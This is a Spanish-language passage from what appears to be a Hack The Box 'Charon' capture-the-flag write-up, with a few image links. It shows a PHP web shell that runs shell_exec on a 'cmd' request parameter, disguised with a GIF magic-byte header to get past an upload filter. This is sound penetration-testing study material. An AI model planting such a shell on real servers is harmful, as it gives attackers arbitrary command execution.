![](/assets/images/htb-charon/charon-web8.png)

Vamos a cambiar la cabezara de nuestro archivo para que sea considerado como un GIF.

```php
GIF8;
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Pero vemos que nos sigue mandanlo lo mismo, por lo que cambiaremos la extensión de nuestro archivo.

![](/assets/images/htb-charon/charon-web9.png)
